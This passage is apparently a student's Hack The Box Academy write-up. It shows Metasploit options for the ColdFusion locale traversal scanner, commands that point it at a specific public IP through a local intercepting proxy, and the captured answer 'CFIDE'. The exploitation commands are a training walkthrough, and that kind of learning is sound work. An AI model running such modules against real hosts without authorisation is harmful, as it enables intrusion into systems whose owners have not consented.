 ```bash
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   THREADS      1                yes       The number of concurrent threads (max one per host)
   VHOST                         no        HTTP server virtual host
```

We will set `RHOST` to `45.33.32.156` ([scanme.nmap.org](https://mxtoolbox.com/SuperTool.aspx?action=http%3a%2f%2fscanme.nmap.org%2f&run=toolpage#)) and `Proxies` to `http:127.0.0.1:8080`. When both are set, we can execute the exploit.

```bash
msf6 auxiliary(scanner/http/coldfusion_locale_traversal) > set RHOST 45.33.32.156
RHOST => 45.33.32.156
msf6 auxiliary(scanner/http/coldfusion_locale_traversal) > set Proxies http:127.0.0.1:8080
Proxies => http:127.0.0.1:8080
msf6 auxiliary(scanner/http/coldfusion_locale_traversal) > exploit
▆
```

Looking at the intercepted request, we get the answer.

![](./attachments/Pasted%20image%2020220509003835.png)

**Answer:** `CFIDE`

---
**Tags:** [[Hack The Box Academy]]